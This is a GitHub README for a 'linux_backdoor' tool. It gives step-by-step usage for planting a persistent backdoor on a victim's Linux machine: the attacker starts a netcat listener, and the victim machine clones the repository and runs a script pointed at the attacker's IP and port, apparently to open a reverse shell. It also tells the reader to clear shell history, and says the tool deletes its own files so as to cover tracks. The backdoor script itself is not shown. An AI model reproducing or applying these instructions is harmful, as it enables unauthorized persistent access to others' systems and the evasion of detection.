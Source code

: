 # linux_backdoor

Usage : 

  ~ Attacker's PC ~
   
   $ nc -lvnp 443
   
  ~ Victim's PC ~

  $ git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  $ cd linux_backdoor
  
  $ chmod +x *
  
  $ ash backdoor.sh <Attacker IP> <Port>
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)


  Clearing Tracks :
  
   ~ Victim's PC ~
  
  $ history -c

  
  Note :

=================================================================================================================
|  You have to keep netcat listner(nc -lvnp 443) started whenever the victim's PC is on so you will get access  |
=================================================================================================================
  
===================================================================================================================  
|  Once the backdoor is injected, it will automatically delete the linux_backdoor directory from the victim's PC. |
===================================================================================================================
